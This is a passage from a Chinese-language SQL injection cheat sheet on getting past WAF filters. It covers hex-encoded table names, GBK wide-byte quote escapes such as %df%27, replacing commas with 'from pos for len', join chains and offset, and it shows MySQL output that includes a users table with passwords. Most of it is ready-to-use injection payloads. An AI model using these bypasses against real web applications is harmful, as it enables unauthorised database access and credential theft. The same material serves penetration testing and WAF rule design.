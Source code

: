 **过滤引号绕过**：

- 使用十六进制

```sql
select column_name  from information_schema.tables where table_name=0x7573657273;
```

- 宽字节

> 常用在web应用使用的字符集为`GBK`时，并且过滤了引号，就可以试试宽字节。

```
# 过滤单引号时
%bf%27 %df%27 %aa%27

%df\’ = %df%5c%27=縗’
```

**过滤逗号绕过**：如果waf过滤了逗号，并且只能盲注，在取子串的几个函数中，有一个替代逗号的方法就是使用`from pos for len`，其中pos代表从pos个开始读取len长度的子串
例如在`substr()`等函数中，常规的写法是

```sql
mysql> select substr("string",1,3);
+----------------------+
| substr("string",1,3) |
+----------------------+
| str                  |
+----------------------+
```

- 如果过滤了逗号，可以这样使用`from pos for len`来取代

```sql
mysql> select substr("string" from 1 for 3);
+-------------------------------+
| substr("string" from 1 for 3) |
+-------------------------------+
| str                           |
+-------------------------------+
1 row in set (0.00 sec)
```

- 也可使用`join`关键字来绕过

```sql
union select * from (select 1)a join (select 2)b join(select 3)c
```

> 等价于

```sql
union select 1,2,3
```

- 使用offset关键字
  适用于`limit`中的逗号被过滤的情况
  `limit 2,1`等价于`limit 1 offset 2`

```sql
mysql> select * from users limit 2,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | admin    | admin    |
+----+----------+----------+

mysql> select * from users limit 1 offset 2;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | admin    | admin    |
+----+----------+----------+
```